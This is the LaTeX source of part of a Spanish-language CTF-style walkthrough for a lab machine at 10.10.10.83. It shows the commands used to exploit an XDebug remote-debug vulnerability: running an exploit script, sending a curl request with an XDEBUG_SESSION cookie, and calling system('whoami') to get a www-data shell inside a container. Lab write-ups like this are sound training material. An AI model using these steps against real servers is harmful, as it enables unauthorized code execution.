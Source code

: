 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit_shell.py}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion GET

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\item
  En la mini shell abierta del exploit\_shell.py lanzamos un \textbf{whoami}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'whoami'}\OtherTok{)}    
\end{Highlighting}
\end{Shaded}
\item
  En la respuesta del \textbf{curl} se nos pone \emph{www-data}
\end{enumerate}

El exploit functionna y el commando \textbf{ifconfig} nos da una ip que no es la 10.10.10.83. Quiere decir que estamos
en un contenedor.

\hypertarget{vuln-exploit-gaining-access}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access}}

\hypertarget{ganando-accesso-con-la-vuln-xdebug}{%
\subsection*{Ganando accesso con la vuln XDebug}\label{ganando-accesso-con-la-vuln-xdebug}}
\end{document}
